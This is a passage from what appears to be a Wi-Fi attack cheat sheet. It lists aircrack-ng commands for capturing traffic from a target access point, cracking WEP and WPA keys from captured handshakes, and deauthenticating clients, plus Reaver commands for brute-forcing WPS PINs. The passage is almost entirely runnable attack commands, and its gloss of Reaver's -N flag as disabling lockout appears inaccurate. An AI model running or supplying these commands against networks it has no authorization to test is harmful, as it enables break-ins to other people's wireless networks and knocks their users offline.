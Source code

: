 - **Stop airmon-ng (to disable monitor mode):**
  ```bash
  sudo airmon-ng stop wlan0mon
  ```

- **List available Wi-Fi networks:**
  ```bash
  sudo airodump-ng wlan0mon
  ```
  (Replace `wlan0mon` with your interface name in monitor mode.)

- **Start capturing packets on a specific channel:**
  ```bash
  sudo airodump-ng --channel 6 --bssid <BSSID> -w capture wlan0mon
  ```
  (`<BSSID>` should be replaced with the MAC address of the target access point.)

#### **2. Cracking WEP/WPA Keys**
- **Crack WEP key with Aircrack-ng (using captured packets):**
  ```bash
  sudo aircrack-ng capture.cap
  ```
  (`capture.cap` is the file containing captured WEP packets.)

- **Crack WPA-PSK (using captured handshake):**
  ```bash
  sudo aircrack-ng -w /path/to/wordlist.txt capture.cap
  ```
  (Replace `/path/to/wordlist.txt` with the path to your wordlist and `capture.cap` with your capture file.)

#### **3. Deauthentication Attack**
- **Deauthenticate a client to capture WPA handshake:**
  ```bash
  sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan0mon
  ```
  (`-a <BSSID>` is the MAC address of the access point and `-c <Client MAC>` is the MAC address of the connected client.)

---

### **Reaver:**
Reaver is a tool used for attacking WPS (Wi-Fi Protected Setup) and recovering the PIN for WPA/WPA2 networks.

#### **1. Basic Commands**
- **Start Reaver with the specified AP's BSSID and interface:**
  ```bash
  sudo reaver -i wlan0mon -b <BSSID> -c <Channel> -vv
  ```
  (`-i` is the interface in monitor mode, `-b` is the BSSID, `-c` is the channel, and `-vv` enables verbose output.)

- **Brute force attack to find WPS PIN:**
  ```bash
  sudo reaver -i wlan0mon -b <BSSID> -vv -N
  ```
  (`-N` disables WPS lockout to speed up attacks.)
